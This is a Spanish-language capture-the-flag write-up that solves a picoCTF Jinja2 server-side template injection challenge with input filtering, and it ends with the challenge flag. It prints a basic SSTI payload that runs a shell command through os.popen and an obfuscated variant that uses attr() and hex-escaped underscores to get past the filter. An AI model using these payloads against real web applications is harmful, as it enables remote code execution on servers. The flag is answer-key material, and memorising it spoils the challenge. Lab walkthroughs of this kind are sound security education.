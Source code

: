 ### Descripción
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.
#### Una vez iniciada la instancia del desafío:
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:61430/)!
### Solución
Al hacer clic en el enlace proporcionado en la descripción una vez iniciada la instancia del reto, nos encontramos con un sitio semejante al del primer reto de este tipo:

![[Pasted image 20250412184231.png]]

Por lo que se intenta aplicar el mismo payload que nos dió resultado en el reto anterior:
`{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}`

![[Pasted image 20250412184440.png]]

A diferencia del primer reto, como podemos ver en la imagen anterior no nos es posible utilizar el payload con el que se resolvió el otro reto, por lo que buscando en internet encontramos la manera de usar uno ofuscado, ya que con el anterior no podíamos acceder a **os** y demás cosas que si podíamos acceder con el otro payload.

Dicho payload ofuscado es el siguiente:
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}`

Al ejecutarlo obtenemos la bandera que da solución a este reto:

```
picoCTF{sst1_f1lt3r_byp4ss_060a5eb0}
```
### Notas Adicionales

### Referencias
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/